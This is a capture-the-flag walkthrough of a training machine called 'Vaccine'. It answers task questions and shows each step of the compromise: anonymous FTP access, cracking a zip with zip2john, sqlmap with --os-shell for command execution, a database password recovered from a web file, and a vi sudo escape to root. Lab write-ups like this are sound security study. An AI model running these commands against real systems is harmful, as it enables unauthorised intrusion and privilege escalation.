

# Vaccine


## Task 1

Besides SSH and HTTP, what other service is hosted on this box?



FTP

## Task 2

This service can be configured to allow login with any password for specific username. What is that username?


anonymous

## Task 3

What is the name of the file downloaded over this service?


backup.zip

## Task 4

What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?


As seen above we have been able to find the password for the zipped folder, now we can be able to unlock the folder in order to find the contents of the folder

```bash
zip2john
```

## Task 5

What is the password for the admin user on the website?


qwerty789

## Task 6

What option can be passed to sqlmap to try to get command execution via the sql injection?


—os-shell

we shall try to get a shell from the machine using sqlmap to get our foothold into the machine as shown below


```bash
sqlmap -url="http://[IP]/dashboard.php?search=new" -cookie="PHPSESSID=snduj64lg29ger6doubiqid824" --os-shell

```

and we have our foothold into the machine.


## Task 7

What program can the postgres user run as root using sudo?

For this section we had to run the following command 

```bash
sudo -l
```

but we are required to input password for the postgres user in order to get the output, hence I dug around and found the password in the file below.

```bash
/var/www/html/dashboard.php

password=P@s5w0rd!

```

Since now we have our password for the postgres user, we can login through ssh


vi

now we can look at [gtfobins](https://gtfobins.github.io/) on how we can exploit vi to get a root shell


after logging in, we were able to get our user flag.


now to root the machine and pawn it, we had to exploit vi using this procedure form gtfobins.

```bash
vi
:set shell=/bin/sh
:shell
```


and we have pawned our machine.